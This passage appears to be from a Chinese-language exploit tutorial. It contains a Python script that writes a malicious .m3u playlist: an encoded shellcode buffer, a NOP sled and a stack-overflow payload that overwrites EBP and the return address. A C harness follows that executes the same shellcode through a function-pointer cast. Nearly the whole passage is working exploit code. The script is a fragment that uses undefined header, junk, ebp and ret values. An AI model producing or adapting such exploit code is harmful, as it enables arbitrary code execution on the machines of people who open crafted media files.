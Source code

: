 ```python
buf = "\xbf\x86\x79\x7d\x55\xdd\xc7\xd9\x74\x24\xf4\x58\x2b\xc9\xb1"
buf += "\x30\x31\x78\x13\x03\x78\x13\x83\xe8\x7a\x9b\x88\xa9\x6a\xde"
buf += "\x73\x52\x6a\xbf\xfa\xb7\x5b\xff\x99\xbc\xcb\xcf\xea\x91\xe7"
buf += "\xa4\xbf\x01\x7c\xc8\x17\x25\x35\x67\x4e\x08\xc6\xd4\xb2\x0b"
buf += "\x44\x27\xe7\xeb\x75\xe8\xfa\xea\xb2\x15\xf6\xbf\x6b\x51\xa5"
buf += "\x2f\x18\x2f\x76\xdb\x52\xa1\xfe\x38\x22\xc0\x2f\xef\x39\x9b"
buf += "\xef\x11\xee\x97\xb9\x09\xf3\x92\x70\xa1\xc7\x69\x83\x63\x16"
buf += "\x91\x28\x4a\x97\x60\x30\x8a\x1f\x9b\x47\xe2\x5c\x26\x50\x31"
buf += "\x1f\xfc\xd5\xa2\x87\x77\x4d\x0f\x36\x5b\x08\xc4\x34\x10\x5e"
buf += "\x82\x58\xa7\xb3\xb8\x64\x2c\x32\x6f\xed\x76\x11\xab\xb6\x2d"
buf += "\x38\xea\x12\x83\x45\xec\xfd\x7c\xe0\x66\x13\x68\x99\x24\x79"
buf += "\x6f\x2f\x53\xcf\x6f\x2f\x5c\x7f\x18\x1e\xd7\x10\x5f\x9f\x32"
buf += "\x55\xaf\xd5\x1f\xff\x38\xb0\xf5\x42\x25\x43\x20\x80\x50\xc0"
buf += "\xc1\x78\xa7\xd8\xa3\x7d\xe3\x5e\x5f\x0f\x7c\x0b\x5f\xbc\x7d"
buf += "\x1e\x3c\x23\xee\xc2\xc3";


shellcode = "\x90" * 30 + buf

payload = header + junk + ebp + ret + shellcode

if len(sys.argv) < 2:
    print 'usage: python ' + sys.argv[0] +' name.m3u'
else:
    with open(sys.argv[1],"w") as f:
        f.write(payload)
```

测试一下这段shellcode，编写一段简单的C代码：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
	unsigned char shellcode[] =
		"\xbf\x86\x79\x7d\x55\xdd\xc7\xd9\x74\x24\xf4\x58\x2b\xc9\xb1"
		"\x30\x31\x78\x13\x03\x78\x13\x83\xe8\x7a\x9b\x88\xa9\x6a\xde"
		"\x73\x52\x6a\xbf\xfa\xb7\x5b\xff\x99\xbc\xcb\xcf\xea\x91\xe7"
		"\xa4\xbf\x01\x7c\xc8\x17\x25\x35\x67\x4e\x08\xc6\xd4\xb2\x0b"
		"\x44\x27\xe7\xeb\x75\xe8\xfa\xea\xb2\x15\xf6\xbf\x6b\x51\xa5"
		"\x2f\x18\x2f\x76\xdb\x52\xa1\xfe\x38\x22\xc0\x2f\xef\x39\x9b"
		"\xef\x11\xee\x97\xb9\x09\xf3\x92\x70\xa1\xc7\x69\x83\x63\x16"
		"\x91\x28\x4a\x97\x60\x30\x8a\x1f\x9b\x47\xe2\x5c\x26\x50\x31"
		"\x1f\xfc\xd5\xa2\x87\x77\x4d\x0f\x36\x5b\x08\xc4\x34\x10\x5e"
		"\x82\x58\xa7\xb3\xb8\x64\x2c\x32\x6f\xed\x76\x11\xab\xb6\x2d"
		"\x38\xea\x12\x83\x45\xec\xfd\x7c\xe0\x66\x13\x68\x99\x24\x79"
		"\x6f\x2f\x53\xcf\x6f\x2f\x5c\x7f\x18\x1e\xd7\x10\x5f\x9f\x32"
		"\x55\xaf\xd5\x1f\xff\x38\xb0\xf5\x42\x25\x43\x20\x80\x50\xc0"
		"\xc1\x78\xa7\xd8\xa3\x7d\xe3\x5e\x5f\x0f\x7c\x0b\x5f\xbc\x7d"
		"\x1e\x3c\x23\xee\xc2\xc3";


	//char *ptr = new char[sizeof(shellcode)];
	//memcpy(ptr, shellcode, sizeof(shellcode));
	((void(*)())&shellcode)();

	return 0;
}
```
